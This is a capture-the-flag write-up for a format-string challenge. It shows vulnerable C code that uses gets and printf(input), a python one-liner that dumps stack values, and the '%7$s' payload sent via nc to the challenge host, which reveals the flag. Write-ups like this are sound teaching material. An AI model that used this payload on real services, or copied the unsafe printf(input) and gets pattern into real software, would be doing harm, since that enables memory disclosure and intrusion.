

# FormatS

 

```txt
The flag's located somewhere in the binary. Can you find it?

nc cyberyoddha.baycyber.net 10005

- Haskell#1426
```

---

Immediately after taking a look at the source code, we were able to tell that this binary could fall victim of a _format string exploit_, since the raw contents of the input buffer are being used as the **first** parameter of printf.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main ()
{
	char *input;
	char *flag = "REDACTED!";

	gets(input);
	printf(input);

	return 0;
}
```

... first of all... use a short python one liner to see what values are stored on the stack:

```bash
python -c "print('%x.'*16)" | ./formats
```

```txt
ffffffff.1010101.8049189.1.ff8fb6b4.ff8fb6bc.804a008.ff8fb610.0.0.f7d7408e.f7f42e1c.f7f42e1c.0.f7d7408e.1.
```

... and... using something like `radare`, we were able to figure out, where the flag string would be stored in memory:



... luckily for us that address is still on the stack, once `printf` is called (simply take another look at the output of the python one liner above - you can see that it's stored at offset `7`).

We can now use this information to simply make the binary tell us the value of the `flag` variable:

```bash
echo '%7$s' | nc cyberyoddha.baycyber.net 10005
```

... this will eventually give you the flag: `cyctf{3xpl0!t_th3_f0rm@t_str!ng}`
